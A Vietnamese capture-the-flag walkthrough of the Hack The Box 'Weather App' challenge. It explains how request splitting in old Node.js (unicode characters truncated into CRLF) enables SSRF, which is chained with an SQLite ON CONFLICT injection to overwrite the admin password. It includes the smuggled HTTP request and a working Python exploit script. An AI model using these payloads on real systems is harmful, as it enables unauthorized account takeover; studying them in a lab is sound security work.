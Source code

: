 ```yaml
---
tag:
    - htb
---
```

# Weather App

## Tóm tắt

Đây lại là một bài Whitebox, cần một chút hiểu biết(đã từng làm) về các lỗ hổng khác để có thể hoàn thành bài.

Điểm đang chú ý nhất là việc lỗi dẫn đến lỗ hổng SSRF ở bài này là việc chuyển đổi từ String tới bytes có thể dẫn tới lỗ hổng.&#x20;

## &#x20;Walkthrough


![screenshot-from-2021-09-11-01-13-58.png](./weather-app/voGdZf0sj.png)

Lướt qua ứng dụng cũng không có gì ngoài việc ứng dụng đưa ra dữ liệu về thời tiết hiện tại. Phải lướt qua source để tìm kiếm thêm API.

&#x20;


![image (4).png](./weather-app/YS_8xT-5k.png)

Flag sẽ được đưa ra khi chúng ta login được vào tài khoản admin. Ngoài ra, còn một API cho phép ta đăng ký tài khoản mới và tại đây tồn tại lỗ hổng SQL Injection (cái này  tác giả cũng cẩn thận note lại cho mọi người).


![image (5).png](./weather-app/rbxRo__T3.png)

Việc xử lý tài khoản admin được tạo ban đầu có thể bypass tương tự như trong [MYSQL](https://book.hacktricks.xyz/pentesting-web/sql-injection#on-duplicate-key-update) với [SQLite on Conflict](https://sqlite.org/lang\_conflict.html). Nhưng một vấn đề ở đây là việc đăng kí chỉ có phép từ Local!


![image (6).png](./weather-app/jWcy7iYWz.png)

Mình lúc đầu cũng ngây thơ khi tìm cách bypass cái regex này thông qua việc sửa Header để bypass nhưng mọi nỗ lực tìm kiếm đều chỉ ra việc bypass cái regex này là không thể =)))&#x20;

Quay ra tìm thêm được một đoạn API thời tiết để lấy thông tin có thể Injection nhưng API cũng chỉ là để đổ dữ liệu ra Frontend, không thấy sử dụng phía Server side.&#x20;


![image (7).png](./weather-app/MsVR-mSQe.png)

Cuối cùng quay lại với file `Docker`  thì phát hiện khá hay là ứng dụng này dùng `Nodejs v8.12.0`  một phiên bản khá là cũ với phiên bản LTS hiện tại là `v14` và `v12` tức là còn trước cả `v10`. Tìm hiểu một hồi lâu thì phiên bản này tồn tại khá nhiều lỗ hổng, đặc biệt có vài lỗ hổng liên quan tới `SSRF` thông qua `Request Splitting`, và mình lang thang một hồi tìm được bài này [Security bugs: SSRF via Request Splitting ](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/).

Tóm váy nhanh thì như sau:

* `http.get()` nhận vào đối số là một `string.`
* Nhưng việc thực hiện gửi `HTTP request `thì cần sử dụng là `bytes array` chứ không thể thực hiện trên `string`.  Do đó các string khi được đưa vào sẽ đồng thời chuyển về bytes array và escape các kí tự đặc biệt.&#x20;
* Việc thực hiện này lại sử dụng việc decoding mặc định của Nodejs thông qua bộ mã hóa `latin1` nếu không có body.
* Bộ mã hóa này không thể hiện các ký tự unicode high-numbered unicode, mà chỉ biểu diễn bằng cách chỉ sử dụng phần low-numbered unicode.

```javascript
> v = "/caf\u{E9}\u{01F436}"
'/café🐶'
> Buffer.from(v, 'latin1').toString('latin1')
'/café=6'
```

* Do đó, có thể chèn các kí tự ngắt (`CRLF`) để có thể thực hiện `Request Splitting` bằng cách sử dụng các ký tự `\u010A\u010D` thì sẽ trở thành ký tự ngắt `CRLF`khi được gửi đi.&#x20;

Quay lại với cái lỗ hổng ở mã nguồn ở trên thì việc có thể thực hiện chuyển mật khẩu tài khoản admin thông qua `Request splitting` tới API lấy dữ liệu thời tiết.

Request cần gửi sẽ có dạng như sau, nhớ là giữa các request cần loại bỏ Header`Connection: close` để tránh đóng kết nối khi tất cả các request chưa được chạy hết, chỉ để lại Header này ở request cuối cùng.

```http
GET /api...<start here> HTTP/1.1
Host: 127.0.0.1

POST /register HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 95
username=admin&password=123') on conflict(username) do update set password='d3s34'-- -

GET /..<end here> HTTP/1.1
Host: 127.0.0.1
Connection: close
```

&#x20;Để thực hiện đoạn body ở giữ thì cần đưa ngắt dòng của HTTP Request vào thông qua lỗ hổng phía trên của NodeJs. Đoạn code exploit mình viết được sẽ như sau:

```python
def exploit():
    crlf = "\u010D\u010A"
    space = "\u0120"

    username = "admin"
    password="1') on conflict(username) do update set password='d3s34';-- -"\
        .replace(" ", space)\
        .replace("'", "%27")

    payload = f"{space}HTTP/1.1{crlf}" \
              f"Host:{space}127.0.0.1{crlf}" \
              f"{crlf}" \
                        \
              f"POST{space}/register{space}HTTP/1.1{crlf}" \
              f"Host:{space}127.0.0.1{crlf}" \
              f"Content-Type:{space}application/x-www-form-urlencoded{crlf}" \
              f"Content-Length:{space}{len(username) + len(password) + len('username=&password=')}{crlf}" \
              f"{crlf}" \
              f"username={username}&password={password}{crlf}" \
              f"{crlf}" \
                        \
              f"GET{space}/VN"

    data = {
        "endpoint": "127.0.0.1",
        "city": "Hanoi",
        "country": "VN" + payload
    }

    response = requests.post(url="http://188.166.173.208:31625/api/weather", data=data)
```

&#x20;Và kết quả sẽ đăng nhập được thông qua mật khẩu Injection được ở trên.


![image (8).png](./weather-app/RwhiCf-Po.png)
